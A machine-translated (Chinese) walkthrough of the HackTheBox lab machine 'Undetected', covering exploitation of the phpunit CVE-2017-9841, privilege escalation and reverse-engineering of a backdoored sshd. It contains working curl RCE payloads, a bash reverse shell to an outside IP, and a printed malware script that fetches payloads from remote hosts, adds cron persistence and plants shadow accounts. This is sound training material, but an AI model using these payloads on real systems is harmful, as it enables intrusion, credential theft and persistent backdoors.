







# 未被黑客盒子检测到—详细演练

> 原文：<https://infosecwriteups.com/undetected-from-hackthebox-detailed-walkthrough-82847eadf7a7?source=collection_archive---------1----------------------->

## 向您展示完成盒子所需的所有工具和技术。

# 机器信息


未被黑客盒子发现

[Undetected](https://app.hackthebox.com/machines/439) 是 HackTheBox 上的一台中等级别的 Linux 机器，由 [TheCyberGeek](https://app.hackthebox.com/users/114053) 创建。我们首先找到一个带有 phpunit 漏洞版本的网站。我们利用这一点来执行远程命令，并获得一个反向外壳。在服务器上发现了一个包含十六进制编码哈希的文件，它被破解后给了我们一个用户密码。从那里我们找到一个隐藏的共享库文件，我们使用 Ghidra 逆向找到一个 base64 编码的字符串。这让我们想到了 sshd 的一个修改版本，当使用 Ghidra 进行反向操作时，就会发现增加了一个后门。解码后，我们终于有了根密码，并完成了盒子。

所需的技能是基本的网络和操作系统枚举，以及研究利用。学到的技能是使用 Ghidra 逆向工程文件和搜索漏洞。

[](https://www.hackthebox.com/home/machines/profile/439) [## 未被检测到—破解机箱::渗透测试实验室

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/439) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



盒子的 Nmap 扫描

# 网站(全球资讯网的主机站)

从响应中我们看到戴安娜的珠宝在端口 80 上:


除了 store 按钮显示了一个子域外，网站上没有什么，让我们添加到我们的 hosts 文件中:

```
┌──(root💀kali)-[~/htb]
└─# echo "10.10.11.146 djewelry.htb store.djewelry.htb" >> /etc/hosts
```

逛商店看不出任何明显的东西:


# Gobuster

接下来用 gobuster 查找文件夹:



Gobuster 扫描子目录

# CVE-2017–9041

供应商文件夹可疑。为什么可以在网络服务器上访问？浏览它，我们看到一些子文件夹，并搜索“利用供应商文件夹”找到了[这个](https://blog.ovhcloud.com/cve-2017-9841-what-is-it-and-how-do-we-protect-our-customers/)，这解释了它如何容易受到 CVE-2017–9841 的攻击。更多信息[这里](https://nvd.nist.gov/vuln/detail/CVE-2017-9841)和[这里](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9841)给了我们一个尝试和利用它的方法。

首先我发现[这个](https://github.com/RandomRobbieBF/phpunit-brute)暴力脚本，我用它来确认这里的 phpunit 版本易受攻击:



wget phpunit 漏洞

该脚本确认这是我们的前进道路，phpunit 是可利用的。例子[这里](https://gist.github.com/AssassinUKG/9f150ee3da9d9a9e421635876859a26d)和[这里](http://web.archive.org/web/20170701212357/http://phpunit.vulnbusters.com/)向我展示了如何尝试:

```
curl --data "<?php echo(pi());" http://localhost:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

当我测试这个盒子时，它工作了:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php echo(pi());" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
3.1415926535898
```

在列举了一些之后，我尝试了一个反向 shell:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.14/1337 0>&1\"');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

# 反向外壳

这奏效了，我等待的 nc 监听器捕获到了 shell:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.146] 57118
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$
```

我的身份是 www-data:

```
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 信息文件

在对文件系统进行了一些枚举之后，我发现了 www-data 拥有的一些有趣的东西:

```
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ find / -user www-data -not -path "/proc/*" -not -path "/var/www/*" 2> /dev/null
<path "/proc/*" -not -path "/var/www/*" 2> /dev/null
/tmp/tmux-33
/dev/pts/0
/var/cache/apache2/mod_cache_disk
/var/backups/info
/run/lock/apache2
```

备份文件夹中的这个信息文件是什么？让我们来看看:

```
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ cp /var/backups/info /tmp
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ cd /tmp

www-data@production:/tmp$ file info
file info
info: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0dc004db7476356e9ed477835e583c68f1d2493a, for GNU/Linux 3.2.0, not stripped

www-data@production:/tmp$ ./info
[-] substring 'ffff' not found in dmesg
[.] starting
[.] namespace sandbox set up
[.] KASLR bypass enabled, getting kernel addr
```

不确定它是做什么的，把它拉过来给 Kali，这样我们可以看得更远一点:


从盒子里取出信息文件

# 使用字符串查看文件

首先在二进制文件上尝试字符串，看看明文中有什么:

```
┌──(root💀kali)-[~/htb/undetected]
└─# strings info
/lib64/ld-linux-x86-64.so.2
<SNIP>
[-] setsockopt(PACKET_VERSION)
[-] setsockopt(PACKET_RX_RING)
[-] socket(AF_PACKET)
[-] bind(AF_PACKET)
[-] sendto(SOCK_RAW)
[-] socket(SOCK_RAW)
[-] socket(SOCK_DGRAM)
[-] klogctl(SYSLOG_ACTION_SIZE_BUFFER)
[-] klogctl(SYSLOG_ACTION_READ_ALL)
Freeing SMP
[-] substring '%s' not found in dmesg
/bin/bash
56d7066696c65732e78797a2f617574686f72697a65645f6b657973202d4f2<SNIP>
03a2c2c2c3a24686f6d653a247368656c6c22203e3e202f6574632f7061737<SNIP>
646f6e65203c2075736572732e7478743b20726d2075736572732e7478743b<SNIP>
[-] fork()
/etc/shadow
[.] checking if we got root
[-] something went wrong =(
```

# 用 XXD 解码

这是一个冗长的输出，但有一个明显的十六进制字符串，我用 xxd 解码:

```
┌──(root💀kali)-[~/htb/undetected]
└─# echo 776765742074656d<SNIP>572732e7478743b | xxd -r -p | sed 's/;/\n/g'
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys
wget tempfiles.xyz/.main -O /var/lib/.main
chmod 755 /var/lib/.main
echo "* 3 * * * root /var/lib/.main" >> /etc/crontab
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd
while read -r user group home shell _
do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd
done < users.txt
rm users.txt
```

# 与 JohnTheRipper 一起破解

我们看到这是一个脚本，它复制文件，设置 cronjob，添加用户和密码，然后整理。我们可以从这行代码中取出密码的散列，用 JohnTheRipper 破解它:

```
echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow
```

我们需要 passwd 文件来查看散列是针对哪个用户的:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /etc/passwd');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<SNIP>
steven:x:1000:1000:Steven Wright:/home/steven:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
steven1:x:1000:1000:,,,:/home/steven:/bin/bash
```

我们有两个 steven 帐户，看上面的回显，它添加了一个 1，所以我们知道我们正在破解的帐户是 steven1。将该行放入文件中:

```
┌──(root💀kali)-[~/htb/undetected]
└─# echo "steven1:x:1000:1000:,,,:/home/steven:/bin/bash" > steven1.passwd
```

现在将密码的散列放在一个文件中:

```
┌──(root💀kali)-[~/htb/undetected]
└─# echo "steven1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7:::" > steven1.shadow
```

现在使用 unshadow 为 John 创建文件:

```
┌──(root💀kali)-[~/htb/undetected]
└─# unshadow steven1.passwd steven1.shadow > steven1.hash
```

然后让约翰和洛克一起去:

```
┌──(root💀kali)-[~/htb/undetected]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt steven1.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihatehackers     (steven1)
1g 0:00:01:44 DONE (2022-02-20 22:47) 0.009611g/s 856.2p/s 856.2c/s 856.2C/s littlebrat..halo03
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

# 用户标志

我们很快得到密码，可以将用户切换到 steven1:

```
www-data@production:/tmp$ su steven1
Password: ihatehackers
id
uid=1000(steven) gid=1000(steven) groups=1000(steven)
```

让我们获取用户标志:

```
steven@production:/root$ cat /home/steven/user.txt 
2c2027e7412139c4cb59d97c6411ba99
```

环顾四周，我注意到的第一件事是史蒂文有一封电子邮件:

```
cat /var/mail/steven
From root@production  Sun, 25 Jul 2021 10:31:12 GMT
Return-Path: <root@production>
Received: from production (localhost [127.0.0.1])
        by production (8.15.2/8.15.2/Debian-18) 
        for <steven@production>; Sun, 25 Jul 2021 10:31:12 GMT
        by production (8.15.2/8.15.2/Submit) id 80FAcdZ171847;
        Sun, 25 Jul 2021 10:31:12 GMT
Date: Sun, 25 Jul 2021 10:31:12 GMT
Message-Id: <202107251031.80FAcdZ171847@production>
To: steven@production
From: root@production
Subject: Investigations

Hi Steven.

We recently updated the system but are still experiencing some strange behaviour with the Apache service. We have temporarily moved the web store and database to another server whilst investigations are underway. If for any reason you need access to the database or web application code, get in touch with Mark and he will generate a temporary password for you to authenticate to the temporary server.

Thanks,
sysadmin
```

# 可疑的 Apache 模块

这里有一个关于行为不端的 Apache 服务的线索。在模块文件夹中，我注意到这个看起来很奇怪:


安装的 apache 模块列表

一个时间戳与其他文件不同的 mod 文件。检查 [Debian 软件包文件列表](https://packages.debian.org/sid/amd64/apache2-bin/filelist)我可以看到该文件不是标准发行版的一部分:

```
/usr/lib/apache2/modules/mod_ratelimit.so
/usr/lib/apache2/modules/mod_reflector.so
/usr/lib/apache2/modules/mod_remoteip.so
/usr/lib/apache2/modules/mod_reqtimeout.so
/usr/lib/apache2/modules/mod_request.so
/usr/lib/apache2/modules/mod_rewrite.so
```

所以 mod_reader.so 值得一看，我们把它拉到 Kali:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /usr/lib/apache2/modules/mod_reader.so');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php --output mod_reader.so
```

# 与 Ghidra 一起倒车

是时候启动 Ghidra 并在文件中探索一下了。如果你不确定如何使用 Ghidra，这里的是一个有用的帖子。

我还没有把它安装在这台虚拟机上，但在添加之前，请注意这需要大约 800mb 的空间来安装:

```
┌──(root💀kali)-[~/htb/undetected]
└─# apt install ghidra        
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following additional packages will be installed:
  ghidra-data openjdk-11-jdk-headless openjdk-11-jre openjdk-11-jre-headless
The following NEW packages will be installed:
  ghidra ghidra-data openjdk-11-jdk-headless
The following packages will be upgraded:
  openjdk-11-jre openjdk-11-jre-headless
2 upgraded, 3 newly installed, 0 to remove and 587 not upgraded.
Need to get 613 MB of archives.
After this operation, 1,282 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 https://http.kali.org/kali kali-rolling/main amd64 openjdk-11-jre amd64 11.0.14+9-1 [175 kB]
Get:2 https://http.kali.org/kali kali-rolling/main amd64 openjdk-11-jre-headless amd64 11.0.14+9-1 [37.3 MB]
Get:3 https://http.kali.org/kali kali-rolling/main amd64 openjdk-11-jdk-headless amd64 11.0.14+9-1 [214 MB]
Get:4 https://archive-4.kali.org/kali kali-rolling/main amd64 ghidra amd64 10.1.2-0kali2 [282 MB]
Get:5 https://archive-4.kali.org/kali kali-rolling/main amd64 ghidra-data all 9.2-0kali2 [79.1 MB]
Fetched 613 MB in 15min 39s (653 kB/s)
(Reading database ... 300882 files and directories currently installed.)
Preparing to unpack .../openjdk-11-jre_11.0.14+9-1_amd64.deb ...
<SNIP>
Setting up ghidra-data (9.2-0kali2) ...
Setting up ghidra (10.1.2-0kali2) ...
Processing triggers for kali-menu (2021.4.2) ...
Processing triggers for desktop-file-utils (0.26-1) ...
Processing triggers for hicolor-icon-theme (0.17-2) ...
Processing triggers for mailcap (3.70+nmu1) ...
```

安装完成后，只需在控制台中键入 ghidra 即可启动 GUI。创建一个新项目并导入 mod_reader.so 文件:



用 Ghidra 看 mod_reader.so

环顾四周，我发现了一个名为 hook_post_config 的函数，它包含一些 base64:



使用 Ghidra 查看 host_post_config

# Base64 解码

复制并解码后我们发现了一些有趣的东西:

```
┌──(root💀kali)-[~/htb/undetected]
└─# echo "d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0 ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk" | base64 -d

wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `datbase64: invalid input
```

好像是在 sbin 里把一张图片写成 sshd 守护进程了。为什么会这样？

# 可疑的 sshd 文件

让我们获取 sshd 文件，并在 Kali 上查看它:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /usr/sbin/sshd');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php --output sshd
```

执行该文件向我们展示了它看起来是一个普通的 sshd 二进制文件:

```
┌──(root💀kali)-[~/htb/undetected]
└─# ./sshd --help
unknown option -- -
OpenSSH_8.2p1, OpenSSL 1.1.1m  14 Dec 2021
usage: sshd [-46DdeiqTt] [-C connection_spec] [-c host_cert_file]
            [-E log_file] [-f config_file] [-g login_grace_time]
            [-h host_key_file] [-o option] [-p port] [-u len]
```

8.2 版本于 2020 年 2 月 14 日发布，但我没有发现任何容易尝试和利用的漏洞。

# 又和吉德拉倒车了

将这个二进制文件导入到 Ghidra 后，我发现了一些有趣的东西:



用 Ghidra 看 sshd

auth_password 函数有一个变量叫做 backdoor。在这里查看函数[的官方源代码](https://github.com/openssh/openssh-portable/blob/master/auth-passwd.c)我们可以看到它被修改了。

我不会详细说明如何计算出添加的后门代码的作用。主要关注的是开始时被赋值的变量:

```
char backdoor [31];
backdoor[30] = -0x5b;
backdoor._28_2_ = 0xa9f4;
backdoor._24_4_ = 0xbcf0b5e3;
backdoor._16_8_ = 0xb2d6f4a0fda0b3d6;
backdoor._12_4_ = 0xfdb3d6e7;
backdoor._8_4_ = 0xf7bbfdc8;
backdoor._4_4_ = 0xa4b3a3f3;
backdoor._0_4_ = 0xf0e7abd6;
bVar7 = 0xd6;
pbVar4 = (byte *)backdoor;
```

变量后门是用 31 个字节创建的。然后小端格式的十六进制值存储在其中。我已经重新安排了顺序，所以它是降序的，还要注意后门[30]是一个无效值-0x5b，如果你在 Ghidra 中右键单击它，你会看到正确的值是 0xa5。

接下来是一个遍历 pbVar4 的循环，它包含所有添加到后门的十六进制值的结果:

```
while( true ) {
    pbVar5 = pbVar4 + 1;
    *pbVar4 = bVar7 ^ 0x96;
    if (pbVar5 == local_39) break;
    bVar7 = *pbVar5;
    pbVar4 = pbVar5;
}

iVar2 = strcmp(password,backdoor);
```

在每次循环中，这些值都与长度为 96 的密钥进行 xor 运算，然后进行一次 sting 比较，看您在登录 SSH 时输入的密码是否与 backdoor 的值匹配。这很难理解，因为有人故意通过移动变量的值来混淆我们。[这个](https://en.cppreference.com/w/c/language/operator_precedence)对于 C 操作人员来说是一个很好的参考。

# 解码根密码

要查看后门变量持有的密码是什么，我们需要解码上面的内容。这可以用一个简单的 Python 循环来完成，但使用 CyberChef 更容易:



使用 CyberChef 查找根密码

就像在函数中一样，我们将后门程序的内容从 Little Endian 转换为 Hex，然后进行 XOR 运算。结果是根密码，所以让我们登录并完成框:

```
┌──(root💀kali)-[~/htb/undetected]
└─# ssh root@djewelry.htb
root@djewelry.htbs password: 
Last login: Tue Feb 22 19:43:08 2022 from 10.10.14.193
root@production:~#
root@production:~# cat /root/root.txt
3a931f64fcdcfb18217aeb6bd37ad8d9

root@production:~# cat /etc/shadow
root:$6$xxydXHZzlPY4U0lU$qJDDFjfkXQnhUcESjCaoCWjMT9gAPnyCLJ8U5l2KSlOO3hPMUVxAOUZwvcm87Vkz0Vyc./cDsb2nNZT0dYIbv.:19031:0:99999:7:::
```

完成了。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—【https://twitter.com/pencer_io】T4
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 7 月 2 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-undetected/)*。*